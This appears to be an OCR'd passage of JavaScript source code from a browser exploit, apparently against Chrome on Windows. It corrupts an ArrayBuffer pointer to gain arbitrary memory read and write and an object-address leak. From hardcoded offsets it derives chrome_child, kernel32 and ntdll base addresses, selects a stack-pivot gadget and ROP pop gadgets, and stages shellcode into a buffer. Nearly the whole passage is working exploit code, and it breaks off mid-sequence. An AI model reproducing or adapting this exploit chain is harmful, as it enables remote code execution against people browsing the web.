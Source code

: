 ```html
            memview_buf_addr--;
            log(`[+] ArrayBuffer @ ${hex(memview_buf_addr)}`);
            let original_driver_buf_ptr = corrupt_arraybuffer(driver_buf, memview_buf_addr);
            let driver = new BigUint64Array(driver_buf);
            let original_memview_buf_ptr = driver[4];
            let memory = {
                write(addr, bytes) {
                    driver[4] = addr;
                    let memview = new Uint8Array(memview_buf);
                    memview.set(bytes);
                },
                read(addr, len) {
                    driver[4] = addr;
                    let memview = new Uint8Array(memview_buf);
                    return memview.subarray(0, len);
                },
                readPtr(addr) {
                    driver[4] = addr;
                    let memview = new BigUint64Array(memview_buf);
                    return memview[0];
                },
                writePtr(addr, ptr) {
                    driver[4] = addr;
                    let memview = new BigUint64Array(memview_buf);
                    memview[0] = ptr;
                },
                addrof(obj) {
                    memview_buf.leakMe = obj;
                    let props = this.readPtr(memview_buf_addr + 8n);
                    return this.readPtr(props + 15n) - 1n;
                },
            };
            let div = document.createElement('div');
            let div_addr = memory.addrof(div);
            //alert('div_addr = ' + hex(div_addr));
            let el_addr = memory.readPtr(div_addr + 0x20n);
            let leak = memory.readPtr(el_addr);
            let chrome_child = leak - 0x40b5f20n;
            //print('chrome_child @ ' + hex(chrome_child));
            // CreateEventW
            let kernel32 = memory.readPtr(chrome_child + 0x4771260n) - 0x20750n;
            //print('kernel32 @ ' + hex(kernel32));
            // NtQueryEvent
            let ntdll = memory.readPtr(kernel32 + 0x79208n) - 0x9a9a0n;
            //print('ntdll @ ' + hex(ntdll));
            /*
            00007ff9`296f0705 488b5150        mov     rdx,qword ptr [rcx+50h]
            00007ff9`296f0709 488b6918        mov     rbp,qword ptr [rcx+18h]
            00007ff9`296f070d 488b6110        mov     rsp,qword ptr [rcx+10h]
            00007ff9`296f0711 ffe2            jmp     rdx
            */
            let gadget = ntdll + 0xA0705n;
            //let gadget = 0x41414141n;
            let pop_gadgets = [
                chrome_child + 0x36a657n, // pop rcx ; ret     59 c3
                chrome_child + 0x9962n, // pop rdx ; ret       5a c3
                chrome_child + 0xc72852n, // pop r8 ; ret      41 58 c3
                chrome_child + 0xc51425n, // pop r9 ; ret      41 59 c3
            ];
            let scratch_addr = memory.readPtr(memory.addrof(scratch) + 0x20n);
            let sc_offset = 0x20000n - scratch_addr % 0x1000n;
            let sc_addr = scratch_addr + sc_offset
            scratch_u8.set(shellcode, Number(sc_offset));
```